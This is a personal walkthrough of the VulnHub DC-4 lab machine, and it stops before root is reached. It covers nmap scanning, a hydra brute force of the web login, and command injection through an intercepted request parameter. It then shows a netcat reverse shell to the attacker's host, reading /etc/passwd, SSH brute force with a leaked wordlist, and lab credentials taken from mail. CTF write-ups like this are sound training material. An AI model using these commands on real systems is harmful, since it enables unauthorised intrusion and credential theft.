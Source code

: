 # DC: 4
[VulnHub link](https://www.vulnhub.com/entry/dc-4,313/)  
By DCAU

* As with the first 3 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-4/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-4/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.10`.
* The host is running 2 services, SSH at port 22 and HTTP at port 80. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.10`:
![](/screenshots/dc-4/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open). This is the first time that we have encountered a non-Apache web server - not that it makes any difference (I think?).
* Opening `http://10.0.2.10` reveals a site with only an "Admin Information Systems Login":
![](/screenshots/dc-4/siteWebServer.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work. Moreover, any invalid attempts does not result in an error message being displayed. Instead, the 2 user input text fields are simply emptied. The page is also changed to `http://10.0.2.10/index.php`.
* The page source does not reveal anything of interest, and the robots.txt page does not exist (404 Not Found).
* The page is running on php - perhaps it could be a WordPress site? I tried to load `http://10.0.2.10/wp-login.php`, but was greeted with the message "No input file specified.". Hmm, interesting. It seems to be expecting a file at the login page?
* I attempted a `wpscan` command against the web server but it did not detect the site's CMS as WordPress.
* Running `whatweb -v 10.0.2.10` also did not tell us what CMS the site was on, except information that we had already known before (e.g. nginx version):
![](/screenshots/dc-4/whatweb.jpg)
* Note: `whatweb` is a web scanner that identifies technologies used by websites.
* Time to find out what other pages or directories that we can access from the site - I tried using `uniscan` but it only gave 2 results which renders the same login page that greeted us.
![](/screenshots/dc-4/uniscan.jpg)
* Using `dirbuster`, we did not find out much additional useful information - the only page with 200 OK is what we already know. The rest of the pages attempted lead to either a 403 Forbidden or 302 Redirect.
![](/screenshots/dc-4/dirbuster.jpg)
* Without making much of a headway, I decided that we will use a dictionary attack against the login page, using `hydra`: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.10 http-post-form '/login.php:username=^USER^&password=^PASS^:S=Logout'`:
![](/screenshots/dc-4/hydraAdmin.jpg)
* I had several issues with running the command here, though I had already used it in 2 walkthroughs previously. The first issue was that instead of `login.php`, I was using `index.php` which did not work. I am rather puzzled as to why this is the case because `dirbuster` told us that accessing the former would result in an indirect to the latter. Accessing the former itself would also result in the same.
* Note: We discovered earlier that accessing `10.0.2.10` itself did not result in a redirect to `http://10.0.2.10/index.php`. Only an invalid login attempt did so. When logging in with `admin:happy`, entering the set of credentials brought us again to `index.php` first, where we had to enter the set of credentials again. So, I decided to head straight to `index.php` and enter the set of credentials, but again I was forced to enter it a second time. Heading straight to `login.php` also required me to log in twice. The mystery behind what puzzled me is still not solved, I guess.
* Note2: Perhaps having to log in twice is a mechanism to defeat brute-force/dictionary attacks, but `login.php` somehow works.
* The second issue was that I did not know what to expect upon a successful log in, i.e. what texts there would be. I was trying out words such as Welcome, and instead of Logout, I was trying Log Out (with a whitespace) instead.
* Note that we also had to make a guess with the username `admin` because an invalid login did not reveal to us if the attempted username even existed.
* This is the page that greets us after logging in:
![](/screenshots/dc-4/adminLogin.jpg)
* Note: There are not a lot of words in the page, so your word/phrase that detects for a successful login in your `hydra` command must have been accurate.
* Clicking on `Command` brings us to a list of 3 commands which we can run:
![](/screenshots/dc-4/systemToolsCommands.jpg)
* Running each of the command is equivalent to running the respective versions of the command in Unix:
![](/screenshots/dc-4/systemToolsCommandsExecution.jpg)
* Looking at the `ls -l` command that was executed, we see that the owner and group of all of the listed files and directories is `root`.
* Since we appear to be executing commands from a GUI, I am guessing that we would be able to post our own requests (i.e. commands).
* This is the first time that I am using Burp Suite - we have to first configure the Firefox browser's proxy settings under Network settings, and ensure that both the browser and the tool are using the same IP address (e.g. 127.0.0.1) and port (e.g. 8080) for the interception by Burp Suite to work.
* We will now capture and intercept the request when we execute `ls -l`:
![](/screenshots/dc-4/burpSuitels.jpg)
* We see that the `ls -l` command is sent under the `radio` parameter.
* Since we are intercepting the request, let us now modify the command string to confirm the fact that we are actually sending commands to the web server. I have changed it to `pwd`, before pressing `Forward` to find out what our current working directory is:
![](/screenshots/dc-4/burpSuitepwd.jpg)
* So indeed it appears that we are able to send our own commands! We are currently at `/usr/share/nginx/html`.
* We will attempt to get a reverse shell through a connection using `nc 10.0.2.15 1234 -e /bin/sh` on the web server, and `nc -v -l -p 1234` in our own Kali VM terminal to catch the connection:
![](/screenshots/dc-4/burpSuitenc.jpg)
* Note: `10.0.2.15` is my Kali VM's IP address. Use `ifconfig` to find out yours.
* `whoami` reveals that we are `www-data` as expected.
* Run `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell.
* Next, I ran `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we could possibly exploit, but nothing quite stood out to me:
![](/screenshots/dc-4/setuidBinaries.jpg)
* I looked into the `/etc/passwd` to find out if there was useful information that we could extract, and found that there were 3 users that we did not know before (`charles`, `jim` and `sam`):
![](/screenshots/dc-4/etcPasswdUserList.jpg)
* Heading to the `/home` directory, we found 3 directories belonging to these users respectively:
![](/screenshots/dc-4/homeDirectory.jpg)
* There is not much that is of interest to us in the respective directories as shown:
![](/screenshots/dc-4/homeDirectoryContents.jpg)
* `test.sh` seems cryptic:
![](/screenshots/dc-4/testScript.jpg)
* The only other file that caught my attention is `old-passwords.bak`, which has a wordlist of 252 lines:
![](/screenshots/dc-4/oldPasswords.jpg)
* The wordlist could contain the password to user `jim`, since it was found under his directory.
* We will next attempt a dictionary attack on the 3 users with `hydra` once again. I used Burp Suite to download the wordlist by changing the request parameters to `radio=cat /home/jim/backups/old-passwords.bak&submit=Run`:
![](/screenshots/dc-4/oldPasswordsBak.jpg)
* Run `hydra -L users.txt -P passwords.txt 10.0.2.10 ssh`, where we see that a set of credentials belonging to `jim` has been found:
![](/screenshots/dc-4/hydraJim.jpg)
* Note: `users.txt` consist of charles, jim and sam, while `passwords.txt` contains the wordlist from `old-passwords.bak`. Since we are finding the credentials for ssh, including it in the command will simply do the trick.
* The password `jibril04` was found towards the end of the user list, hence it took awhile for `hydra` to give us our result.
* We log in with `jim:jibril04`, running `ssh jim@10.0.2.10`, and we are in:
![](/screenshots/dc-4/sshJim.jpg)
* There was a file mbox that we did not have permissions to open previously:
![](/screenshots/dc-4/jimmbox.jpg)
* The file contains an email from `root` to `jim`, with a test message. I was pretty much stuck at this point in time because I was not quite sure what the mail was telling us. I did not find any information from the mail itself that appeared useful.
* I found out from other walkthroughs that we should check out `/var/mail`, because a mail server is likely to be (or had been) running given that an email was sent. Interesting, I have learnt something new here.
* There is only 1 file `jim` in the directory. Opening it, we see the password for user `charles` in an email sent from him:
![](/screenshots/dc-4/jimMail.jpg)
* Now we have one more set of credentials: `charles:^xHhA&hvim0y`.
* We can either exit from `jim` and enter `ssh charles@10.0.2.10`, or continue with `jim` and run `su charles`:
![](/screenshots/dc-4/sshCharles.jpg)
* There are no noteworthy files in charles' home directory, so we will have to think of a way to escalate our privileges.
* I recalled in dc-2 that besides the command that we used earlier to find setuid binaries (but to no avail), we could also run `sudo -l` to find out what commands we can run as root in the current capacity:
![](/screenshots/dc-4/sudoCommands.jpg)
* It turns out that we can run `/usr/bin/teehee` as root.
* The confusion that I had was that I did not know exactly what `teehee` did. I ran the file and found that whatever I typed was repeated back to me. I typed in various commands but to no avail.
* I ran `strings teehee` and found a whole lot of text within the file. I had also found that we could run `./teehee --help` to find out what it was exactly doing:
![](/screenshots/dc-4/teeheeHelp.jpg)
* To-be-continued...

# Other walkthroughs visited
1. https://s1gh.sh/vulnhub-dc-4/